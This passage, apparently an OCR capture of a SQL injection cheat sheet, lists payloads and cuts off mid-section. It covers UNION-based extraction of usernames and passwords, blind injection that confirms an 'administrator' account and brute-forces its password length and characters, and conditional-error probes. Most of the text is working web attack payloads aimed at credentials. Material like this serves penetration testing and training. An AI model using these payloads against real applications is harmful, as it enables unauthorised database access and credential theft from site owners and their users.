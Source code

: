     BINARY: Sensitive to upper case and lower case.

    ```
    ' UNION SELECT username,password FROM users WHERE username='admin' AND BINARY password='PassWord'#
    ```

- **Blind SQL**

    1. **First Check**

        ```
        ' AND '1'='1
        ' AND '1'='2
        ' AND (SELECT 'a' FROM users LIMIT 1)='a
        ```

    2. **Check if Content Value Exists**

        For example, check if username 'administrator' exists in 'users'

        ```
        ' AND (SELECT 'a' FROM users WHERE username='administrator')='a
        ```

        If so, determine the password length

        ```
        ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
        ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
        ...
        ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=8)='a
        ```

        Brute force password's character

        ```
        ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='$a$
        ' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='$a$
        ...
        ' AND (SELECT SUBSTRING(password,8,1) FROM users WHERE username='administrator')='$a$
        ```

- **Conditional Error**

    1. **First Check**

        ```
        '
        ''
        '||(SELECT '')||'
        '||(SELECT '' FROM dual)||'
        '||(SELECT '' FROM fake_table)||'
        '||(SELECT '' FROM users WHERE ROWNUM = 1||'
        '|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
        '|| (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
        ```

    2. **Check if Content Value Exists**
